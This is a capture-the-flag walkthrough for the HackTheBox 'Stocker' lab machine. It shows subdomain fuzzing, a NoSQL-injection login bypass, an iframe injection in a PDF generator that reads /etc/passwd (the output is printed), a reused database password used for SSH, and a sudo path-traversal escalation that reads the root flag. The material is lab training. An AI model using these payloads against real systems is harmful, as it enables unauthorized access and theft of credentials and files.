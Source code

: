 # Stocker

## IP = 10.10.11.196

## Nmap


## Wfuzz
```
wfuzz -w list.txt -H "Host: FUZZ.stocker.htb" --hc 403,400,301 -t 150 10.10.11.196
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.196/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                   
=====================================================================

000000019:   302        0 L      4 W        28 Ch       "dev"                                                                                                                                                                     

Total time: 0
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 0
```

### Maybe user in placeholder:
`<input type="text" class="form-control" id="username" name="username" placeholder="jsmith" />`

### NoSQL injection, but you have to change the payload to json
Try all the payloads in PayloadAllTheThing:
```json
{"username": {"$ne":null }, "password": {"$ne": null }}
```

### HTML Injection in the "Title" field of the PDF. Inject an iframe:
https://stackoverflow.com/questions/42393063/load-local-html-on-iframe
```json

{
    "basket":[
        {
            "_id": "638f116eeb060210cbd83a8d",
            "title": "<iframe id=\"serviceFrameSend\" src=\"../../../../../../../../etc/passwd\" width=\"1000\" height=\"1000\" frameborder=\"0\">",
            "description":"It's a red cup.",
            "image":"red-cup.jpg",
            "price":32,
            "currentStock":4,
            "__v":0,
            "amount":1
        }
    ]
}
```
Result:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin
landscape:x:109:116::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
fwupd-refresh:x:112:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mongodb:x:113:65534::/home/mongodb:/usr/sbin/nologin
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/fals
```

### Look into /var/www/dev/index.js
```
// TODO: Configure loading from dotenv for production
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
```

### SSH: angoose:IHeardPassphrasesArePrettySecure


### Privilege escalation really simple
```
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

Create a file that read `/root/root.txt`:
```
fs.readFile('/root/root.txt', "utf8", (err, data) => {
    console.log("Flag: " + data);
});
```

### Just run: `sudo /usr/bin/node /usr/local/scripts/../../../dev/shm/file.js`